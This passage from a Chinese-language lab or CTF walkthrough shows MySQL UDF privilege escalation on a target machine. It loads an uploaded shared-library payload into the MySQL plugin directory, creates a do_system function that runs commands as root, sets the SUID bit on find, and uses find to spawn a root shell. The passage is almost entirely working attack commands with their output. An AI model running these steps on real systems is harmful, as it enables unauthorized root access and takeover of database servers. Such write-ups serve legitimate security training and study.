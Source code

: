 
8、创建一个表

```sql
mysql> ccreate table zf1yolo(line blob);
create table zf1yolo(line blob);
Query OK, 0 rows affected (0.00 sec)
```

9、

添加字段数值，添加的我们上传到靶机的 payload

```sql
mysql> insert into zf1yolo values(load_file('/tmp/lyqdjx.so'));
insert into zf1yolo values(load_file('/tmp/lyqdjx.so'));
Query OK, 1 row affected (0.00 sec)
```

将 zf1yolo 表中的所有内如导入到 `/usr/lib/mysql/plugin`

```sql
mysql> select * from zf1yolo into dumpfile '/usr/lib/mysql/plugin/lyqdjx.so';
select * from zf1yolo into dumpfile '/usr/lib/mysql/plugin/lyqdjx.so';
Query OK, 1 row affected (0.00 sec)
```

创建自定义函数

```sql
mysql> create function do_system returns integer soname 'lyqdjx.so';
create function do_system returns integer soname 'lyqdjx.so';
Query OK, 0 rows affected (0.00 sec)
```

通过审计 1518.c 我们知道使用的是 do_system 函数可以以root权限执行命令，到了这里就可以随心所欲了。

举个例子，通过 do_system 使 find 命令所有者的 suid 权限，使其可以以 root 权限执行命令(创建具有suid权限，方便提权)

```sql
mysql> select do_system('chmod u+s /usr/bin/find');
select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.01 sec)
```

10、suid 的 find 提权

[(150条消息) 小记 SUID find提权_Crispr-bupt的博客-CSDN博客](https://blog.csdn.net/crisprx/article/details/104110725)

```bash
touch getshell
find / -type f -name getshell -exec "whoami" \;
find / -type f -name getshell -exec "/bin/sh" \;
```
